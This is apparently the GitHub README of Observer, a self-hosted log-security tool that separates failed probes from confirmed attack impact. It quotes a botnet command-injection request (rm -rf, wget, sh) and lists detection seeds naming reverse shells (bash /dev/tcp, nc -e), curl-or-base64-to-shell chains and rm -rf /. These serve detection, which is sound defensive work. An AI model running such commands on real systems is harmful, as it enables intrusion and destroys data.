

# Observer

**Self-hosted log security that separates attack attempts from attack impact.**

[](LICENSE) [](go.mod) []()

Observer is a single Go binary that watches your Docker and Linux logs, classifies suspicious activity, and when it can, captures the server's response to answer the question most security tools skip:

> **Did the attack actually work?**

Observer is for people who want fewer security alerts, not fewer security signals.

---

## Why Observer exists

Most internet traffic to a public server is hostile. The shape is familiar:

```
GET /.env
GET /wp-admin/setup-config.php
GET /containers/json
GET /actuator/env
POST /cgi-bin/[some-router-CVE]
```

Almost all of it fails. The path doesn't exist, the auth is wrong, the version isn't vulnerable, the upstream rejected it. The attacker moves on.

Most IDSes don't know any of that. They see the request, match a signature, and email you. Multiply that by a botnet and you get the experience every operator knows: an inbox full of alerts about attacks that hit a 404.

Observer is built around the reality that **most probes fail**. Failed probes should become probe intelligence, not panic. Confirmed impact, explicit policy hits, or genuinely unresolved high-risk events are the things that should interrupt you.

The product decision: **email on confirmed impact, log everything else.**

---

## See it in action

Two real attacks caught in production. Both look the same at the request layer. Observer treats them very differently because of what the server actually returned.

### Failed attack: Netgear botnet probe

An IoT botnet tried to exploit a Netgear router vulnerability to download and execute malware:

```
GET /setup.cgi?cmd=rm+-rf+/tmp/*;wget+malware;sh+netgear
```


What Observer did:

1. **Tier 1 classification:** the LLM read the log line, identified command execution via `setup.cgi`, returned `malicious` at 0.78 confidence. Only the exact normalized hash was cached; no broad pattern was learned (malicious verdicts deliberately do not auto-learn prefix/regex/contains patterns).
2. **Coordinator held for evidence:** instead of firing immediately, the finding was held through a 5-second evidence window (10-second finalize) while REC delivered the response.
3. **REC captured the HTTP response:** the reverse proxy returned `404 Not Found`. The path doesn't exist on this server.
4. **Final verdict: `recon` (downgraded by evidence).** Recorded as probe intelligence. **No email**, no incident.

That's one alert saved. Multiply by the thousands of automated probes a public server sees daily. A dedicated Probes view to separate failed-probe intelligence from active findings is coming in v1.1; today, recon events are visible in the findings list filtered by verdict.

### Successful attack: CVE-2025-55182 (React2Shell)

We deployed a vulnerable Next.js 15.0.0 test container and fired the public PoC for [CVE-2025-55182](https://nvd.nist.gov/vuln/detail/CVE-2025-55182), a CVSS 10.0 pre-auth RCE that achieved arbitrary code execution as root. The attacker dumped `/etc/passwd`:


```
[ALERT] Source=docker:srv-captain--react2shell-test
  Reason=System credential file contents (/etc/passwd) in output
  MatchedVia=seeded

[ESCALATE] Source=docker:srv-captain--react2shell-test
  Reason=System credential file contents (/etc/passwd) in output
  MatchedVia=seeded (non-HTTP malicious, direct dispatch)
```

A seeded pattern matched `root:x:0:0:root` in the container's output. Verdict: `malicious`, instantly, deterministically. **Email sent. Zero LLM calls.** The credential dump tripped a hard-coded seed before the AI was even consulted.

Same Tier 1 shape as the Netgear case. Different Tier 2 outcome. Different operator experience.

---

## How it works

Observer's pipeline is deterministic-first. The LLM is consulted only for events Observer hasn't seen before, typically under 5% of traffic in production.

```
log line arrives (Docker container or journald)
   │
   ▼
policy engine            SSH logins, user creation, privilege escalation
   │                     runs first; identity-based, trusted-IP allowlist
   ▼
deterministic filters    stack traces, failed HTTP probes, SSH brute force
   │                     (inside the analyzer)
   ▼
pattern store            4 buckets × 4 tiers (hash → prefix → regex → contains)
   │                     seeded malicious patterns live here as contains-tier entries
   │                     known-good?  → skip silently
   │                     known-noise? → suppress silently
   │                     known-bad?   → coordinator holds for evidence
   │                     unknown?     → goes to LLM
   ▼
LLM classifier           local Ollama by default; OpenAI-compatible optional
   │                     classifications cached → next time is free
   ▼
coordinator              correlates request with response
   │                     joins against ↓
   ▼
REC                      AF_PACKET sniffer inside the reverse proxy
                         namespace, full TCP reassembly, HTTP response
                         capture (when traffic traverses the sniffed device)
   │
   ▼
verdict                  recon       → record as probe intelligence, no email
                         alert       → log, configurable email
                         malicious   → email immediately with evidence
                         evidence_unavailable → log, mark honestly
```

### Pipeline layers

1. **Policy engine**: SSH logins, user creation, privilege escalation, `authorized_keys` modification. Runs first. Identity-based decisions with a trusted-IP allowlist.
2. **Deterministic filters**: Stack traces, failed HTTP probes, SSH brute force. Structural detection inside the analyzer. Never touches the LLM.
3. **Pattern store**: Four-bucket (allow / malicious / alert / suppress), four-tier (hash → prefix → regex → contains). In-memory lookups, no network round-trip. Curated seed patterns (credential file contents, private keys, reverse shells, download-and-execute and destructive commands) are pre-loaded here as contains-tier malicious entries, so a seed match is an instant `malicious` verdict with direct email dispatch. Cache hit rate runs above 97% in production once the system has seen a few days of traffic.
4. **LLM classifier**: OpenAI-compatible API. Intent × outcome classification. Local Ollama by default, hosted endpoint optional. Bounded retry queue handles backpressure.
5. **REC (Response Evidence Capture)**: AF_PACKET sniffer inside the reverse proxy's network namespace. Full TCP reassembly via gopacket. Captures HTTP responses, redacts secrets structurally, correlates with alerts. VIP lane protects malicious evidence from traffic-flood eviction.
6. **Coordinator**: Groups alerts, holds for evidence (5 s evidence window, 10 s finalize), downgrades false alarms, dispatches findings. Email only on confirmed impact.
7. **Catch-all suppression**: Learns server response fingerprints (host, status, body hash). Auto-downgrades repeated identical responses across different attack paths.
8. **Evidence reconciler**: Background process finalizes unresolved findings. Marks as `evidence_unavailable` after a timeout if REC never captured a response. Honest, not silent.

The whole thing ships as one Go binary. Single static build, no CGO, runs as a systemd service.

---

## Local-first by default

Observer's binary defaults point at a local Ollama instance:

```bash
LLM_URL=http://llm:11434
LLM_MODEL=qwen2.5:7b
```

This means:

- **Your logs do not leave your network.** LLM consultation runs on the same machine (or LAN) Observer is deployed on. Nothing about your infrastructure, secrets, session tokens, request bodies, or PII gets sent to a third-party AI provider.
- **API costs are zero.** Ollama is free; the only cost is the compute to run it.
- **Air-gapped deployments work.** If your environment can't reach the public internet, Observer still works as long as Ollama is reachable on the LAN.

The installer asks which provider you want before configuring: Ollama or any OpenAI-compatible endpoint (OpenAI, Together, Groq, vLLM, Anthropic via OpenAI-compatible proxy, or your own self-hosted gateway). Observer uses standard `POST /v1/chat/completions`. There's no vendor lock-in.

For regulated environments, the local-Ollama path helps avoid the first privacy objection: logs do not need to leave your network for classification.

---

## Verdict types

| Verdict | Meaning | Emails? |
|---|---|---|
| `recon` | Suspicious request that didn't work: failed probe, hit a 400/403/404/405/410, or got blocked upstream. Recorded as probe intelligence. | No |
| `alert` | Suspicious request, outcome unclear. Logged with whatever evidence Observer has. | Configurable |
| `malicious` | Confirmed impact. REC captured a response containing evidence of exploitation, or a seeded pattern matched. | **Yes** |
| `policy` | Operator-defined identity rules (SSH logins, user creation, privilege escalation, `authorized_keys`). Escalating hits are stored as `malicious` with classification `policy_escalated` and emailed; lower-risk hits (trusted-IP SSH login, failed sudo) resolve to `allow`/`alert` with no email. | Conditional |
| `allow` | Known-safe traffic shape. Cached, never re-classified. | No |
| `suppress` | Known-noise pattern (operational scanners, health checks). Counted but not surfaced. | No |
| `evidence_unavailable` | Observer flagged the request but couldn't capture a response. Honest, not silent. | No |

> `evidence_unavailable` is a resolution state the reconciler stamps on a finding when REC never captured a response. It is applied on top of the finding's existing verdict, not a verdict in its own right.

Observer tries to avoid escalating failed probes and known noise, but it does not downgrade evidence of impact. If response evidence, seeded patterns, or policy rules show compromise or disclosure, the event escalates.

---

## Cost in production (3 servers, 30 days)

Below is the OpenAI usage chart from one operator running Observer across three production servers for a 30-day window:



**Total spend: $34.02** for 30 days across 3 servers: 35,888 LLM requests, ~88M tokens. Those 35,888 requests are the *novel* events that missed the deterministic cache and reached the cloud model; the vast majority of traffic was classified locally and never cost a thing.

That total includes two anomalous spike days (Apr 28 at $9.24 and Apr 29 at $11.24) from a runaway-loop bug shipped during development. Backing those out, baseline 30-day spend across all 3 servers was about **$13.50**, or roughly **15 cents per server per day**.

Per-request cost works out to around **$0.0009**, under a tenth of a cent per event that reached the LLM.

The reason it's cheap is **not** that the LLM is cheap. It's that the LLM is rarely consulted. The deterministic-first pipeline (hash cache + pattern store + seeded matches + REC short-circuits) handles 97%+ of events without ever calling the LLM. Cloud-API cost scales with novel events, not with traffic volume.

And again: **this is the cloud-API path, which is opt-in.** The default Ollama path costs $0 in API spend regardless of event volume.

---

## Install

One command on any Linux server:

```bash
curl -fsSL https://raw.githubusercontent.com/VaultGuardian/observer/main/install.sh | sudo bash
```

For people who prefer not to pipe curl to sudo bash (reasonable, especially on a security tool!), the manual path:

```bash
# Find the latest release
LATEST=$(curl -fsSL https://api.github.com/repos/VaultGuardian/observer/releases/latest \
  | grep '"tag_name"' | cut -d'"' -f4)

# Download the binary
curl -fsSL "https://github.com/VaultGuardian/observer/releases/download/${LATEST}/observer" \
  -o observer

# Verify the SHA256 against the release page on GitHub
sha256sum observer

# Install
sudo mv observer /usr/local/bin/
sudo chmod +x /usr/local/bin/observer
```

Then write the systemd unit and `/etc/vaultguardian/observer.env` by hand. The `install.sh` script handles both for you in the one-liner path; the unit content it writes is identical to what you'd write manually.

The installer prompts for:
- LLM provider (Ollama or any OpenAI-compatible endpoint). It probes for a local Ollama instance and recommends it by default; the cloud path is an explicit opt-in.
- LLM model name
- Server nickname (used in alert emails; defaults to system hostname)
- Dashboard API port (default `9090`)
- Resend API key, alert destination address, and sender ("From") address (optional). The From address defaults to Resend's pre-verified sandbox sender (`onboarding@resend.dev`), so email works out of the box before you've verified your own domain.
- Whether to enable Response Evidence Capture (REC)

Re-running the installer over an existing install detects your `/etc/vaultguardian/observer.env` and **preserves it**: your settings (bind address, CORS allowlist, REC tuning, notifier config) are kept, the configuration prompts are skipped, and only the binary and systemd unit are refreshed. To change settings, edit the env file directly and `systemctl restart observer`; to reconfigure from scratch, remove the env file first. For binary-only upgrades, prefer `vaultguardian update`.

Docker containers are monitored automatically if Docker is present. If not, Observer watches everything via journald. The policy engine, classification, and email alerts all work on a bare-metal server with nothing but `sshd`.

After install, manage with the CLI:

```bash
vaultguardian status          # Service status + recent logs
vaultguardian logs            # Tail logs
vaultguardian stats           # Pipeline performance
vaultguardian rec status      # REC coverage + port status
vaultguardian update          # Update to latest release
vaultguardian update v0.48    # Update to a specific version
vaultguardian restart         # Restart observer
vaultguardian version         # Current + available versions
vaultguardian uninstall       # Remove observer (data preserved)
```

Tested on Debian 12+, Ubuntu 22.04+, and recent Rocky/Alma. Anything systemd-based with kernel 5.x+ should work.

---

## Configuration

Configuration is environment variables, loaded from `/etc/vaultguardian/observer.env` (chmod `0600`, root only) by the systemd unit's `EnvironmentFile=` directive.

### Core

| Variable | Default | Description |
|---|---|---|
| `DATA_DIR` | `/data` | Pattern store + SQLite persistence |
| `DOCKER_SOCKET` | `/var/run/docker.sock` | Docker socket path |
| `JOURNALD_ENABLED` | (unset) | Set to `true` to watch host journald |
| `EXCLUDE_CONTAINERS` | | Comma-separated container names to skip |
| `JOURNALD_EXCLUDE_UNITS` | | Additional systemd units to suppress |
| `HOSTNAME` | (empty; falls back to system hostname) | Label for this server, included in alert emails alongside the IP. The installer's "server nickname" prompt writes this. |

### LLM

| Variable | Default | Description |
|---|---|---|
| `LLM_URL` | `http://llm:11434` | Endpoint (any OpenAI-compatible API works) |
| `LLM_MODEL` | `qwen2.5:7b` | Model name on the endpoint |
| `LLM_API_KEY` | | Only required if your endpoint demands one |
| `LLM_SLOTS` | `4` | Max concurrent LLM requests |
| `LLM_TIER1_EFFORT` | `low` | Reasoning effort for Tier 1 classification |
| `LLM_TIER2_EFFORT` | `medium` | Reasoning effort for Tier 2 evidence review |

To use OpenAI directly, override the defaults:

```bash
LLM_URL=https://api.openai.com
LLM_MODEL=gpt-5-mini
LLM_API_KEY=sk-xxxxxxxxxxxx
```

### REC (Response Evidence Capture)

| Variable | Default | Description |
|---|---|---|
| `REC_ENABLED` | `false` | Master switch for REC |
| `REC_INTERFACE` | (auto) | Interface to sniff |
| `REC_NS_CONTAINER` | | Container whose namespace REC enters (e.g. `captain-nginx`) |
| `REC_PORTS` | `80,8080` | Comma-separated HTTP ports REC always sniffs |
| `REC_LEARNED_PORT_CAP` | `64` | Cap on runtime-learned ports (`0` to disable learning) |
| `REC_REASSEMBLY_MAX_BODY` | `2048` | Max bytes to reassemble per HTTP response |
| `REC_REASSEMBLY_STREAM_TTL` | `5s` | Lifetime for an idle reassembly stream |

Additional REC tuning knobs exist (`REC_FLOW_*`, `REC_REASSEMBLY_MAX_BUFFERED_PAGES_*`); see [`docs/configuration.md`](docs/configuration.md) for the full list.

### Dashboard

| Variable | Default | Description |
|---|---|---|
| `DASHBOARD_PORT` | `9090` | Port the API listens on |
| `DASHBOARD_BIND_ADDR` | `127.0.0.1` | Bind address; defaults to localhost only |
| `DASHBOARD_KEY_FILE` | `/etc/vaultguardian/dashboard.key` | Path to bearer token file (auto-generated) |
| `DASHBOARD_ALLOWED_ORIGINS` | (none) | Comma-separated CORS allowlist; empty = no CORS headers |

> **Important:** the dashboard binds to `127.0.0.1` by default. If you change this to `0.0.0.0` to expose it on a network, do that behind a reverse proxy with TLS and authentication. Observer logs a warning when the dashboard is bound to a non-loopback address.

### Email alerts (optional)

| Variable | Default | Description |
|---|---|---|
| `RESEND_API_KEY` | | Resend API key for delivery |
| `ALERT_EMAIL_TO` | | Destination address for alert emails |
| `ALERT_EMAIL_FROM` | `VaultGuardian Observer <onboarding@resend.dev>` | Sender address. Must be verified in **your** Resend account. The default is Resend's sandbox sender, which works without domain setup; switch to your own verified domain once you have one. |

When configured, escalation emails include the `HOSTNAME` (above) and the server's primary IP, so it's obvious which machine fired the alert when you're running Observer on multiple servers.

---

## What it catches

**Policy engine (deterministic, pre-LLM):**
- SSH login from unknown IP → instant email alert
- New user created (`useradd`) → escalation
- Privilege grant (`usermod -aG sudo`) → escalation
- SSH `authorized_keys` modification → escalation
- Failed sudo attempts → alert

**Seed patterns (deterministic, no LLM needed):**
- System credential file contents (`root:x:0:0:root`) in any log stream → instant escalation
- Private keys (`BEGIN RSA PRIVATE KEY`, `BEGIN OPENSSH PRIVATE KEY`, `BEGIN EC PRIVATE KEY`, `BEGIN PRIVATE KEY`) → instant escalation
- Reverse shells (`bash -i >& /dev/tcp`, `nc -e /bin/sh`) → instant escalation
- Remote code execution chains (`curl | sh`, `wget | sh`, `base64 -d | bash`) → instant escalation
- Destructive commands (`rm -rf /`) → instant escalation

**LLM classification (learns over time):**
- SQL injection, shell injection, PHP wrappers, encoded exploits
- Path traversal, reconnaissance probes
- Successful vs. failed attack outcomes (intent × outcome)
- Protocol mismatches, binary probes, scanner noise
- Data exfiltration patterns (command output, env dumps, credential leaks)

**Deterministic suppression (never hits the LLM):**
- Failed HTTP probes: `400`/`403`/`404`/`405`/`410` responses, regardless of path or payload. A 404 on `/.env` is still a 404; nothing was disclosed at the router. The only thing that bypasses this filter is **actual disclosure evidence in the log line itself** (e.g., a credential dump in the response body), which escalates regardless of status code. Body-parser exploits that succeed (XXE, deserialization, Log4Shell) generate downstream log lines (process spawns, file reads, response disclosures) that the seed patterns, policy engine, and REC catch with confirmed-impact evidence rather than request-shape suspicion.
- Application stack traces (Node.js, Python, Go, Java)
- SSH brute force (thousands per day on every public server)
- Nginx file-not-found errors
- Firewall blocks (UFW/iptables)

---

## Dashboard

Observer exposes a REST API on the configured `DASHBOARD_PORT`, protected by a randomly generated bearer token stored at `/etc/vaultguardian/dashboard.key`.

The API provides:
- Security findings (events, verdicts, evidence)
- Pipeline stats (cache rate, LLM calls)
- Pattern store inspection (scopes, learned patterns)
- LLM decision audit trail
- Trusted IP management
- Policy rule status

The multi-server dashboard is live at [app.vaultguardian.io](https://app.vaultguardian.io). Add your Observer instances, and the dashboard aggregates findings, events, and pipeline stats across your fleet.

For operators who prefer direct API access, query the local endpoint:

```bash
# Pipeline stats
curl -H "Authorization: Bearer $(sudo cat /etc/vaultguardian/dashboard.key)" \
  http://localhost:9090/api/stats

# Recent findings
curl -H "Authorization: Bearer $(sudo cat /etc/vaultguardian/dashboard.key)" \
  http://localhost:9090/api/findings?limit=50

# Add a trusted IP
curl -X POST -H "Authorization: Bearer $(sudo cat /etc/vaultguardian/dashboard.key)" \
  -H "Content-Type: application/json" \
  -d '{"ip":"98.152.173.124","description":"Office"}' \
  http://localhost:9090/api/trusted-ips
```

A dedicated **Probes view** that separates `recon` events from active findings is on the v1.1 roadmap.

---

## What Observer is not

Honest disclaimers. Security tools that overclaim are worse than security tools that don't exist:

- **Not a replacement for patching.** Observer telling you an attack failed because it hit a 404 doesn't mean the application is secure. Patch your stuff.
- **Not a full SIEM.** Observer focuses on log security and response-evidence verification. It doesn't do log aggregation across infrastructure, compliance reporting, or long-term forensic storage. If you have a SIEM, Observer complements it; it does not replace it.
- **Not a firewall or IPS.** Observer observes. It doesn't block traffic, drop connections, or modify packets. Use it alongside a real edge filter.
- **Not magic exploit detection.** REC captures HTTP response evidence when it can. Edge cases (mid-stream attach during Observer restart, responses generated upstream of the sniffed device, encrypted tunnels that don't traverse the sniffed namespace) produce findings without evidence. Observer marks those `evidence_unavailable` rather than guessing.
- **Not a guarantee.** No security tool is. Observer reduces alert fatigue and surfaces real impact when it can. It does not eliminate the need for skilled operators.

---

## Project structure

```
├── main.go                     # Pipeline wiring, coordinator, reconciler
├── llmscheduler.go             # Bounded LLM retry / scheduler queue
├── resultrouter.go             # Shared classification outcome handler
├── reclasscache.go             # Reclassification (evidence) cache
├── httpparse.go                # HTTP request/response parsing helpers
├── seeds.go                    # Curated malicious pattern seeds
├── config.go                   # Environment variable configuration
├── install.sh                  # One-command installer
├── release.sh                  # Build, test, tag, and publish a release
├── docs/                       # Configuration reference + images
├── internal/
│   ├── analyzer/               # Normalize → match → classify → learn
│   ├── api/                    # REST API + bearer token auth
│   ├── coordinator/            # Evidence huddle + catch-all suppression
│   ├── event/                  # Canonical event model
│   ├── llm/                    # LLM client, Tier 1 + Tier 2 prompts
│   ├── normalizer/             # Source-specific log normalization
│   ├── notifier/               # Email (Resend) + webhook (APNS/FCM/SMS present, not yet exposed)
│   ├── patternstore/           # 4-bucket, 4-tier pattern matching
│   ├── policy/                 # Deterministic pre-LLM policy engine
│   ├── rec/                    # Response Evidence Capture (AF_PACKET)
│   ├── store/                  # SQLite persistence (findings, decisions, async writer)
│   └── watcher/                # Docker + journald log streaming
└── README.md
```

---

## Build from source

```bash
git clone https://github.com/VaultGuardian/observer.git
cd observer

# Test
go test ./...

# Build for Linux
GOOS=linux GOARCH=amd64 go build -o observer .
```

Requires Go 1.25+.

---

## Contributing

Observer's normalizers are the primary contribution path. Each normalizer teaches Observer to recognize a specific service's log format, improving hash-hit rates and reducing LLM calls.

Observer works with everything out of the box via the generic normalizer. Service-specific normalizers make it faster and cheaper.

To add a normalizer:
1. Create `internal/normalizer/yourservice.go` implementing the `Normalizer` interface
2. Register it in `normalizer.go`
3. Add tests in `normalizer_test.go`

---

## License

Observer is licensed under [AGPL-3.0](LICENSE).

- **Self-hosting Observer is free, forever.** The AGPL license guarantees this. Run it on as many servers as you want, in production, indefinitely, no fees.
- **The hosted dashboard at `app.vaultguardian.io`** is an optional commercial offering for operators who'd rather not query the API directly. The Observer binary itself remains AGPL regardless of which dashboard you use.
- **AGPL means modifications you publish must be source-available under AGPL.** The goal is simple: self-hosters can run and modify Observer freely, while public hosted versions must keep their source available under the AGPL. This leaves normal self-hosters and commercial users entirely unaffected; it just prevents large cloud providers from rewrapping Observer as a closed-source managed service.

If you're unsure whether your use case falls within the license, open an issue and ask.

---

## Issues and contact

- **Bugs / feature requests:** [GitHub Issues](https://github.com/VaultGuardian/observer/issues)
- **Security disclosures:** `security@vaultguardian.io` (PGP key on the website)
- **General questions:** [GitHub Discussions](https://github.com/VaultGuardian/observer/discussions) or `hello@vaultguardian.io`

Observer came out of building [VaultDEC-1](https://vaultguardian.io). DEC-1 is a Layer 2 invisible inline bridge that severs the connection to the backup server when it sees exfiltration starting, and that part turned out to be the easy half. The harder problem was that DEC-1 only catches the attacker on the way out. By the time they're trying to leave, they've already been on the network, already navigated to whatever they were looking for, already decided what to take.

Observer is the half of the story that runs earlier, covering the probes, the recon, the failed and successful exploits, so an operator can know *while* an attacker is on the box, not after.

If it's useful to you, a star on the repo helps it find other people in the same situation.

---

*Part of the [VaultGuardian](https://vaultguardian.io) ecosystem. Observer detects the intrusion. [DEC-1](https://vaultguardian.io) stops the data from leaving.*